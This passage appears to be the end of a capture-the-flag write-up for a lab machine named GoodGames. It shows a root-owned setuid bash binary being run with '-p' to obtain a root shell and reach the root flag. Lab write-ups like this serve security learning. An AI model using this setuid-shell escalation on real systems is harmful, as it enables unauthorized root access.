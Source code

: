 Back on GoodGames, the changes are reflected:

    augustus@GoodGames:~$ ls -l bash
    -rwsrwxrwx 1 root root 1234376 May 22 23:20 bash

Running it (with -p so that privileges aren’t dropped) returns a root shell:

    augustus@GoodGames:~$ ./bash -p
    bash-5.1#

In `/root` we have the root flag !